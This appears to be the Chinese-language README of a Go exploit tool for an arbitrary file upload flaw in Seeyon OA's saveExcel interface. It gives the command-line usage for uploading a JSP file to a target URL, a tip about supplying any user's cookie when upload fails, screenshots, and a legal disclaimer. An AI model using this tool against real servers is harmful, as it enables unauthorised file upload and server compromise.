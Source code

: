 # 致远OA_saveExcel任意文件上传exp (2023/06版本修复) 

# Usage
```
Usage：go run seeyon_saveExcel.go -u http://xx.xx.xx.xx -f xx.jsp (-c)
```

```
Options:
  -c string
        cookie [Optional]
        
  -f string
        file [Required]
        
  -u string
        target url [Required]
```
# 利用截图

有可能存在漏洞接口但上传不成功的情况，可添加任意用户cookie进行后台上传

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/244ffc51-d980-4c83-bcdd-f773ba5e4cbb)

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/eed48758-2c5c-4b17-9c5b-944561862d0a)

# 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！
